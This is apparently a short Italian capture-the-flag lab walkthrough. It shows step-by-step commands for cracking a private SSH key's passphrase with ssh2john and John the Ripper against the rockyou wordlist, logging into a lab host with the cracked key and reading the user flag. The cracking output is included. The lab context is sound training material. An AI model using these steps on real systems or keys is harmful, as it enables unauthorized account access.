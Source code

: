 
1) Diamo alla chiave id_rsa salvata in locale i permessi corretti:
chmod 600 id_rsa

2) Poi porto il file id_rsa in un formato leggibile da john the ripper:
ssh2john id_rsa > sshash.txt 

3) Poi faccio l'attacco bruteforce per scoprire la password:
john sshash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)     <--- Password Trovata
1g 0:00:00:00 DONE (2022-11-20 12:37) 25.00g/s 12800p/s 12800c/s 12800C/s teiubesc..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

4) Ora accediamo all'account conoscendo la password "letmein":
ssh -i id_rsa john@10.10.208.18

5) Ora leggiamo il file user.txt che ci sta nella directory di john:
cat /home/john/user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e  <--- User Flag Trovata
